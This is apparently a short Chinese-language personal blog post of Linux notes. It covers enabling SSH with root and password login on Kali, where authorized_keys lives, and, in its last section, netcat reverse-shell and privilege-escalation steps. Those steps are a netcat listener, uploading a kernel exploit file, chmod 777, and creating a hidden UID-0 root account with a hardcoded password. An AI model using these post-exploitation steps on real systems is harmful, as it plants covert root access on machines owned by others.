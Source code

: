 ```yaml
---
layout: post
title: "Linux 相关命令"
date: 2017-2-14

---
```

##SSH开启&开机自启动##

1.修改ssh_config文件。命令：```vim /etc/ssh/sshd_config```

2.将```#PasswordAuthentication no```的注释去掉，并且将```NO```修改为```YES```  //我的kali中默认	是yes

3.将```#PermitRootLogin yes```的注释去掉 //我的kali中默认去掉了注释

4.启动SSH服务，命令为：```/etc/init.d/ssh start``` // 或者service ssh start

5.验证SSH服务状态，命令为：```/etc/init.d/ssh status```

6.添加开机自启动 ```update-rc.d ssh enable``` 

   关闭则为：```update-rc.d ssh disabled```


---
##Linux RSA公私钥认证##

路径 ```/root/.ssh/authorized_keys```

```authorized_keys```  ```id_rsa```

---

##Linux下nc反弹&提权##
服务器上面执行 ```NC -vv -l -p （Port）```

上传exp ```2.6.32.exp```

用```ls -l``` 文件名 看权限 是否可执行 如果不能执行 可以```chmod -R 777 filename``` 给予执行权限

```useradd -u 0 -o -g root -G root xftp```

```echo "Admini111" | passwd --stdin xftp```

